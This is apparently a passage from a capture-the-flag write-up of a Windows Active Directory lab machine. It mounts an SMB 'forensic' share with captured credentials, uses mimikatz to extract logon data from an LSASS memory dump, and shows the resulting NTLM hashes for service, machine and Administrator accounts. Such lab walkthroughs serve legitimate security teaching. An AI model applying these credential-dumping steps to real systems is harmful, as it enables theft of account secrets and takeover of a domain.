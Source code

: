 ```
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```
Just like we predicted the 'forensic' share we talked about earlier is now READ ONLY.
## SMB | audit2020
Forensic stuff are bound to be juicy, time to mount and dig through it.
```
root@crab:~# mount -t cifs //10.10.10.192/forensic /mnt/blackfield/ -o username=audit2020,password='password1234!@',domain=blackfield
root@crab:~# cd /mnt/blackfield/
root@crab:/mnt/blackfield# ls
commands_output  memory_analysis  tools
```
The folders 'commands_output' and 'memory_analysis' look interesting. Digging through them, I came across an eye-catching 'lsass.zip' file. LSASS, also known as Local Security Authority Subsystem Service, is basically responsible for verifying a user trying to login to Windows, creating access tokens, handling password changes, and more. A great tool called Minikatz is able to dump this file for potential hashes. Let's give it a shot. <br>
On Windows VM:
```
C:\> mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords
```

Using grep to output only NTLM hashes and the corresponding users from the Mimikatz output file, we get a lot of juicy information.
```
root@crab:~# grep -e ntlm -e user -i mimikatz.log                                                       
User Name         : svc_backup                                                                                                           
         * Username : svc_backup                                                                                                         
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d                                                                                   
         * Username : svc_backup                                                                                                         
         * Username : svc_backup                                                                                                         
User Name         : UMFD-2
         * Username : DC01$   
         * NTLM     : b624dc83a27cc29da11d9bf25efea796              
         * Username : DC01$                                         
         * Username : DC01$     
User Name         : UMFD-2      
         * Username : DC01$                                         
         * NTLM     : b624dc83a27cc29da11d9bf25efea796              
         * Username : DC01$
         * Username : DC01$
User Name         : Administrator
         * Username : Administrator
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * Username : Administrator
         * Username : Administrator
User Name         : DWM-1
...

```